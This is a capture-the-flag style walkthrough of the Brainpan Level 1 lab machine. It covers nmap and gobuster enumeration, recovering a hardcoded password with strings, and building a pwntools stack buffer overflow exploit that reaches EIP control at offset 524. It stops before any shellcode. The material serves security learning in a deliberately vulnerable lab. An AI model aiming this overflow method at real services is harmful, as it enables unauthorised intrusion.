









# Brainpan Level 1

## Host Discovery

```none
$ sudo nmap -sn 192.168.254.145/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-22 12:05 EDT
Nmap scan report for 192.168.254.1
Host is up (0.00066s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.254.2
Host is up (0.00016s latency).
MAC Address: 00:50:56:E3:2E:ED (VMware)
Nmap scan report for 192.168.254.150
Host is up (0.00029s latency).
MAC Address: 00:0C:29:BB:05:43 (VMware)
Nmap scan report for 192.168.254.254
Host is up (0.00078s latency).
MAC Address: 00:50:56:EA:85:24 (VMware)
Nmap scan report for 192.168.254.145
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.32 seconds
```

I ran the scan above from a host in my VMware NAT subnet `192.168.254.0/24`. Since I only had my kali machine and brainpan running in the subnet, I was able to figure out that host `192.168.254.150` was the brainpan level 1 virtual machine.

## Active Ports

### Light Port Scan

```none
sudo nmap -p- -oA nmap/full-tcp 192.168.254.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-22 12:06 EDT
Nmap scan report for 192.168.254.150
Host is up (0.0035s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt
MAC Address: 00:0C:29:BB:05:43 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 6.51 seconds
```

### Detailed Port Scan

```none
$ sudo nmap -p 9999,10000 -sC -sV -oA nmap/full-tcp-version 192.168.254.150
[sudo] password for kali:
Sorry, try again.
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-22 12:13 EDT
Nmap scan report for 192.168.254.150
Host is up (0.00039s latency).

PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
| fingerprint-strings:
|   NULL:
|     _| _|
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.80%I=7%D=8/22%Time=5F41441B%P=x86_64-pc-linux-gnu%r(NU
SF:LL,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|_\|
SF:\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\
SF:x20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\|\x
SF:20\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x
SF:20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x
SF:20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20_\|
SF:\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x
SF:20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x
SF:20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x20\x
SF:20\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20_
SF:\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x20\x
SF:20_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPAN\x
SF:20_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTER\x
SF:20THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20>>\x20");
MAC Address: 00:0C:29:BB:05:43 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.38 seconds
```

## Vulnerability Discovery

Since port 9999 was non-standard, I figured I would try connecting to it with `ncat`.

```none
$ ncat -C 192.168.254.150 9999
_|                            _|
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD

                          >> password
                          ACCESS DENIED
```

It looks like a password is required to access something on that port. Quickly playing with the service yielded no immediate results.

I chose to poke around at the other non-standard port which happened to be hosting a python web server:



Looking at the page's source code, the page was only just an image:

```html
<html>
<body bgcolor="ffffff">
<center>
<!-- infographic from http://www.veracode.com/blog/2012/03/safe-coding-and-software-security-infographic/ -->

</center>
</body>
</html>
```

At this point, I figured I would try pushing for more web content discovery, so I ran gobuster against the web service on port 10000:

```none
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -f -u http://192.168.254.150:10000/ -o raft-large-directories.out
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.254.150:10000/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Add Slash:      true
[+] Timeout:        10s
===============================================================
2020/08/22 12:20:53 Starting gobuster
===============================================================
/bin/ (Status: 200)
[ERROR] 2020/08/22 12:21:06 [!] parse http://192.168.254.150:10000/error_log/: net/url: invalid control character in URL
===============================================================
2020/08/22 12:21:28 Finished
===============================================================
```

I found a `/bin/` directory which happened to hold a `brainpan.exe` executable.



I went ahead and downloaded the file to check whether it was a native or Windows CLR executable:

```none
$ file brainpan.exe
brainpan.exe: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows
```

After fingerprinting the executable, I figured out that it was a 32-bit native code executable. I ran `strings` against it as the most basic form of binary static analysis:

```none
$ strings brainpan.exe
!This program cannot be run in DOS mode.
.text
`.data
.rdata
@.bss
.idata
[^_]
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
[^_]
[get_reply] s = [%s]
[get_reply] copied %d bytes to buffer
shitstorm
_|                            _|
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|
                                            _|
[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD
                          >>
                          ACCESS DENIED
                          ACCESS GRANTED
[+] initializing winsock...
[!] winsock init failed: %d
done.
[!] could not create socket: %d
[+] server socket created.
[!] bind failed: %d
[+] bind done on port %d
[+] waiting for connections.
[+] received connection.
[+] check is %d
[!] accept failed: %d
[+] cleaning up.
-LIBGCCW32-EH-3-SJLJ-GTHR-MINGW32
w32_sharedptr->size == sizeof(W32_EH_SHARED)
```

Just from the strings above, I was pretty confident that the service running on port 9999 was running `brainpan.exe`. The word `shitstorm` stood out to me, so I tried that as the password:

```none
$ ncat 192.168.254.150 9999
_|                            _|
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD

                          >> shitstorm
                          ACCESS GRANTED
```

As much as I like it when programs grant me access, I wasn't able to do much else after getting access since I wasn't able to enter any commands. I figured I would try doing some more analysis on the binary.

I went ahead and moved the binary to my reverse-engineering machine and disabled ASLR to make debugging and exploit development a lot easier.

```powershell
New-ItemProperty -Path "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\MoveImages" -Value 0
```

## Exploit Development

I then loaded the executable in Immunity Debugger and attempted to overflow it with a pattern. I used `pwntools` to generate the following 2000 byte pattern:

```none
$ pwn cyclic 2000
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaakgaakhaakiaakjaakkaaklaakmaaknaakoaakpaakqaakraaksaaktaakuaakvaakwaakxaakyaakzaalbaalcaaldaaleaalfaalgaalhaaliaaljaalkaallaalmaalnaaloaalpaalqaalraalsaaltaaluaalvaalwaalxaalyaalzaambaamcaamdaameaamfaamgaamhaamiaamjaamkaamlaammaamnaamoaampaamqaamraamsaamtaamuaamvaamwaamxaamyaamzaanbaancaandaaneaanfaangaanhaaniaanjaankaanlaanmaannaanoaanpaanqaanraansaantaanuaanvaanwaanxaanyaanzaaobaaocaaodaaoeaaofaaogaaohaaoiaaojaaokaaolaaomaaonaaooaaopaaoqaaoraaosaaotaaouaaovaaowaaoxaaoyaaozaapbaapcaapdaapeaapfaapgaaphaapiaapjaapkaaplaapmaapnaapoaappaapqaapraapsaaptaapuaapvaapwaapxaapyaapzaaqbaaqcaaqdaaqeaaqfaaqgaaqhaaqiaaqjaaqkaaqlaaqmaaqnaaqoaaqpaaqqaaqraaqsaaqtaaquaaqvaaqwaaqxaaqyaaqzaarbaarcaardaareaarfaargaarhaariaarjaarkaarlaarmaarnaaroaarpaarqaarraarsaartaaruaarvaarwaarxaaryaarzaasbaascaasdaaseaasfaasgaashaasiaasjaaskaaslaasmaasnaasoaaspaasqaasraassaastaasuaasvaaswaasxaasyaaszaatbaatcaatdaateaatfaatgaathaatiaatjaatkaatlaatmaatnaatoaatpaatqaatraatsaattaatuaatvaatwaatxaatyaat
```

I then wrote the following exploit script to deliver the payload:

```python
from pwn import *

conn = remote('192.168.254.132', 9999)
buff = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaakgaakhaakiaakjaakkaaklaakmaaknaakoaakpaakqaakraaksaaktaakuaakvaakwaakxaakyaakzaalbaalcaaldaaleaalfaalgaalhaaliaaljaalkaallaalmaalnaaloaalpaalqaalraalsaaltaaluaalvaalwaalxaalyaalzaambaamcaamdaameaamfaamgaamhaamiaamjaamkaamlaammaamnaamoaampaamqaamraamsaamtaamuaamvaamwaamxaamyaamzaanbaancaandaaneaanfaangaanhaaniaanjaankaanlaanmaannaanoaanpaanqaanraansaantaanuaanvaanwaanxaanyaanzaaobaaocaaodaaoeaaofaaogaaohaaoiaaojaaokaaolaaomaaonaaooaaopaaoqaaoraaosaaotaaouaaovaaowaaoxaaoyaaozaapbaapcaapdaapeaapfaapgaaphaapiaapjaapkaaplaapmaapnaapoaappaapqaapraapsaaptaapuaapvaapwaapxaapyaapzaaqbaaqcaaqdaaqeaaqfaaqgaaqhaaqiaaqjaaqkaaqlaaqmaaqnaaqoaaqpaaqqaaqraaqsaaqtaaquaaqvaaqwaaqxaaqyaaqzaarbaarcaardaareaarfaargaarhaariaarjaarkaarlaarmaarnaaroaarpaarqaarraarsaartaaruaarvaarwaarxaaryaarzaasbaascaasdaaseaasfaasgaashaasiaasjaaskaaslaasmaasnaasoaaspaasqaasraassaastaasuaasvaaswaasxaasyaaszaatbaatcaatdaateaatfaatgaathaatiaatjaatkaatlaatmaatnaatoaatpaatqaatraatsaattaatuaatvaatwaatxaatyaat'
print(f'[->] {buff}')
conn.send(buff)
response = conn.recvline()
print('[<-]')
```

I ran the script:

```none
$ python3 exploit.py
[+] Opening connection to 192.168.254.132 on port 9999: Done
[->] b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaakgaakhaakiaakjaakkaaklaakmaaknaakoaakpaakqaakraaksaaktaakuaakvaakwaakxaakyaakzaalbaalcaaldaaleaalfaalgaalhaaliaaljaalkaallaalmaalnaaloaalpaalqaalraalsaaltaaluaalvaalwaalxaalyaalzaambaamcaamdaameaamfaamgaamhaamiaamjaamkaamlaammaamnaamoaampaamqaamraamsaamtaamuaamvaamwaamxaamyaamzaanbaancaandaaneaanfaangaanhaaniaanjaankaanlaanmaannaanoaanpaanqaanraansaantaanuaanvaanwaanxaanyaanzaaobaaocaaodaaoeaaofaaogaaohaaoiaaojaaokaaolaaomaaonaaooaaopaaoqaaoraaosaaotaaouaaovaaowaaoxaaoyaaozaapbaapcaapdaapeaapfaapgaaphaapiaapjaapkaaplaapmaapnaapoaappaapqaapraapsaaptaapuaapvaapwaapxaapyaapzaaqbaaqcaaqdaaqeaaqfaaqgaaqhaaqiaaqjaaqkaaqlaaqmaaqnaaqoaaqpaaqqaaqraaqsaaqtaaquaaqvaaqwaaqxaaqyaaqzaarbaarcaardaareaarfaargaarhaariaarjaarkaarlaarmaarnaaroaarpaarqaarraarsaartaaruaarvaarwaarxaaryaarzaasbaascaasdaaseaasfaasgaashaasiaasjaaskaaslaasmaasnaasoaaspaasqaasraassaastaasuaasvaaswaasxaasyaaszaatbaatcaatdaateaatfaatgaathaatiaatjaatkaatlaatmaatnaatoaatpaatqaatraatsaattaatuaatvaatwaatxaatyaat'
[<-]
```

At this point, I was able to find the memory address where the overflow takes control over the return address in the EIP register by checking the result in Immunity Debugger.



From the image above, the offset in the overflow pattern was located at `0x66616167`. From that pattern, we can figure out what the overflow address is:

```none
$ pwn cyclic -l 0x66616167
524
```

Therefore, we can take control of the return address at EIP at offset 524 into the buffer. I modified the exploit script to look like the following:

```python
import struct
from pwn import *

conn = remote('192.168.254.132', 9999)
buf_len = 524
buff = b"\x90" * buf_len + struct.pack("<I", 0xdeadbeef)
print(f'[->] {buff}')
conn.send(buff)
response = conn.recvline()
print('[<-]')
```

When running the script above, I was able to set the return address at EIP to `0xdeadbeef`:


At this point, I figured I could get the shllcode to jump to an offset from ESP. This is because ESP pointed to the memory address after `0xdeadbeef` which indicated the end of my buffer. Since I was planning on having the shellcode exist in my existing buffer, I wanted to see how many bytes after `0xdeadbeef` I would have to place the my shellcode since a simple jump to ESP should jump into the shellcode.

I updated my exploit code to look like the following:

```python
import struct
from pwn import *

conn = remote('192.168.254.132', 9999)
buf_len = 524
buff = b"\x90" * buf_len + struct.pack("<I", 0xdeadbeef)
buff += b'A'*1000
print(f'[->] {buff}')
conn.send(buff)
response = conn.recvline()
print('[<-]')
```

Notice the extra `A`'s after the buffer are meant to determine how much stack space after the overflow I have available for the shellcode.

After running the script, we can see that there is a lot of space after `0xdaedbeef` for shellcode:




